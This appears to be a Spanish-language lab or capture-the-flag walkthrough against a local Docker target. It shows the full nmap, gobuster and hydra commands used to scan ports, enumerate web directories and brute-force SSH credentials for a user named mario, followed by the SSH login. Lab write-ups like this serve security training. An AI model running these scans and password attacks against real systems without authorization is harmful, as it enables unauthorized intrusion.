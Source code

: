 
DESPLIEGUE

```
bash auto_deploy.sh trust.tar
```


------------------------
PROCEDIMIENTO:

Tenemos la IP: 
```
172.18.0.2
```

---------------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.18.0.2
```


![[Pasted image 20240915115430.png]]

Tenemos el puerto 80 y el 22. 

Vamos a ver la página web

Tenemos un servidor que corre por el servicio de apache

![[Pasted image 20240915115629.png]]


Ahora lo que podemos hacer es encontrar un directorio que pueda contener algún nombre para luego entrar por fuerza bruta por el puerto ssh.

```
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .php, .txt, .py
```

![[Pasted image 20240915120658.png]]

![[Pasted image 20240915120733.png]]

Tenemos un usuario, así que lo que podemos hacer es fuerza bruta con hydra.


```
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

![[Pasted image 20240915120953.png]]

Ya podemos conectarnos por ssh.

```
ssh mario@172.18.0.2
```


![[Pasted image 20240915121124.png]]

